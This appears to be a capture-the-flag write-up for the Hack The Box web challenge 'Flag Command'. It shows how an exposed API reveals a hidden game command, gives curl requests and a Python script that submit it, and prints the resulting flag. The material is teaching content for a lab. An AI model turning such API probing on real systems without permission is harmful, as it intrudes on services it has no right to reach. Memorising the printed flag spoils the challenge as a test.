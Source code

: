 # HTB WEB - Flag Command

After landing on the page the first thing to do is to enumerate the site, since some JS files are given to run the game those are a good place to start. Looking at `main.js` it appears there is an api which lists the current commands.

``` js
const fetchOptions = () => {
    fetch('/api/options')
        .then((data) => data.json())
        .then((res) => {
            availableOptions = res.allPossibleCommands;

        })
        .catch(() => {
            availableOptions = undefined;
        })
}
```

Calling that function we get a json of the available commands

``` bash
$ curl http://94.237.59.199:32475/api/options

{
  "allPossibleCommands": {
    "1": [
      "HEAD NORTH",
      "HEAD WEST",
      "HEAD EAST",
      "HEAD SOUTH"
    ],
    "2": [
      "GO DEEPER INTO THE FOREST",
      "FOLLOW A MYSTERIOUS PATH",
      "CLIMB A TREE",
      "TURN BACK"
    ],
    "3": [
      "EXPLORE A CAVE",
      "CROSS A RICKETY BRIDGE",
      "FOLLOW A GLOWING BUTTERFLY",
      "SET UP CAMP"
    ],
    "4": [
      "ENTER A MAGICAL PORTAL",
      "SWIM ACROSS A MYSTERIOUS LAKE",
      "FOLLOW A SINGING SQUIRREL",
      "BUILD A RAFT AND SAIL DOWNSTREAM"
    ],
    "secret": [
      "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"
    ]
  }
}
```

The key `secret` seems pretty important, and it looks like the command for the secret is pretty long. We will need to figure out how to give the application a command. Looking through `main.js` again, we see the function `CheckMessage`

``` js
async function CheckMessage() {
    fetchingResponse = true;
    currentCommand = commandHistory[commandHistory.length - 1];

    if (availableOptions[currentStep].includes(currentCommand) || availableOptions['secret'].includes(currentCommand)) {
        await fetch('/api/monitor', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ 'command': currentCommand })
        })
...
```

It looks like sending a POST request with the command embedded will do the trick.

``` bash
	$ curl -X POST http://94.237.59.199:32475/api/monitor \
  -H "Content-Type: application/json" \
  -d '{"command": "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"}'

{
  "message": "HTB{D3v3l0p3r_t00l5_4r3_b35t__t0015_wh4t_d0_y0u_Th1nk??}"
}
```

With this we get the flag: HTB{D3v3l0p3r_t00l5_4r3_b35t__t0015_wh4t_d0_y0u_Th1nk??}


Script:

``` python
import requests
import json

HOST = '94.237.59.199'
PORT = 32475
URL = f'http://{HOST}:{PORT}'
 
# Grab the secret command 
resp = requests.get(f'{URL}/api/options')
options = json.loads(resp.text)
secret_cmd = options['allPossibleCommands']['secret'][0]

# Pass in the secret command to get the flag 
resp = requests.post(f'{URL}/api/monitor', json={'command': secret_cmd})
flag = json.loads(resp.text)['message']
print(flag)
```